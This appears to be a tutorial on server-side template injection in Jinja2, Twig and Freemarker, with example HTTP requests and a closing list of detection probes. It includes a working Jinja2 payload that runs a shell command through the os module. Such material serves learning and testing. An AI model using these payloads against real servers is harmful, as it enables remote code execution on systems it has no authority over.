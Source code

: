 # Description

**Server-Side Template Injection (SSTI)** is a web application vulnerability that occurs when user input is embedded directly into a server-side template, allowing an attacker to execute arbitrary code on the server. This vulnerability arises when the application fails to properly sanitize user input before using it in a template rendering engine.

### How Does SSTI Vulnerability Occur?

SSTI occurs due to insecure handling of template rendering in web applications. It happens when:
1. **User Input is Used in Templates**: The application allows user input to be directly embedded in server-side templates for rendering.
2. **Lack of Input Sanitization**: The user-provided data is not validated, sanitized, or properly escaped, making it possible for malicious input to be interpreted as template code.
3. **Insecure Template Engines**: Some template engines allow code execution or direct access to server resources if provided with crafted input.

Popular template engines vulnerable to SSTI include Jinja2 (Python), Twig (PHP), Freemarker (Java), and others.

### Where to Put an SSTI Payload?

An SSTI payload is placed in any input field, URL parameter, or HTTP header where the data is used in server-side templates. Common areas include:
- **Form fields that are used in rendering responses** (e.g., feedback forms, profile descriptions).
- **URL parameters that affect template rendering**.
- **HTTP request headers, if used in templates**.

### Examples of HTTP Requests with SSTI Payloads

Here are some examples of SSTI payloads used in various contexts:

#### 1. Basic SSTI in a Python Flask/Jinja2 Application

If an application uses Jinja2 and directly renders user input, a payload can be used to execute Python code.

**Malicious Payload (`{{7*7}}`)**:
- When rendered in Jinja2, this payload evaluates `7*7` and returns `49`.

**Example HTTP Request**:
```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```
In this example, if the server-side code uses `name` in a Jinja2 template like this:
```python
return render_template('greeting.html', name=request.args.get('name'))
```
The output rendered would be `49` instead of `{{7*7}}`.

#### 2. Exploiting SSTI to Execute Arbitrary Code

Advanced SSTI payloads can execute arbitrary server-side commands or code.

**Malicious Payload for Jinja2 (`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`)**:
- This payload tries to access the `os` module and execute the `id` command, potentially revealing user and group information.

**Example HTTP Request**:
```http
POST /feedback HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

message={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```
If the `message` parameter is rendered directly in a Jinja2 template, it could execute the `id` command on the server.

#### 3. SSTI in a PHP Application Using Twig

For Twig template engines, SSTI payloads can be used to achieve code execution if the application does not filter user input.

**Malicious Payload (`{{7*7}}`)**:
- Like in Jinja2, this payload would be evaluated and produce `49`.

**Example HTTP Request**:
```http
GET /profile?bio={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```
If the application uses:
```php
echo $twig->render('profile.html', ['bio' => $_GET['bio']]);
```
It could render `49` on the profile page.

#### 4. Java Application Using Freemarker

In Freemarker, SSTI can occur if input is evaluated as part of the template rendering.

**Malicious Payload (`${7*7}`)**:
- In Freemarker, `${7*7}` would evaluate to `49`.

**Example HTTP Request**:
```http
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

comment=${7*7}
```
If the application uses the input in the template:
```java
template.process(dataModel, out);
```
It could output `49` instead of `${7*7}`.

SSTI vulnerabilities can lead to severe consequences, such as remote code execution or unauthorized access to sensitive data, making secure template handling crucial for web applications.
### Breaking Out of Expressions

In more complex cases, the vulnerability might not be evident from a simple mathematical operation. For example, if user input is placed within a template expression, like so:
```python
greeting = getQueryParameter('greeting')
engine.render("Hello {{" + greeting + "}}", data)
```
- **In this example, the request URL might be:**
   ```
   http://vulnerable-website.com/?greeting=data.username
   ```

- **Output:**
   ```
   Hello Carlos
   ```

To test for SSTI, try injecting additional template syntax:
- **Injection Example:**
   ```
   http://vulnerable-website.com/?greeting=data.username}}<tag>
   ```

If the server-side template engine renders the input correctly, potentially including the arbitrary HTML, like:
```
Hello Carlos<tag>
```
It indicates that the application is vulnerable to SSTI because the template syntax allowed breaking out of the original expression.

# SSTI Payloads For Detection
```html
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```
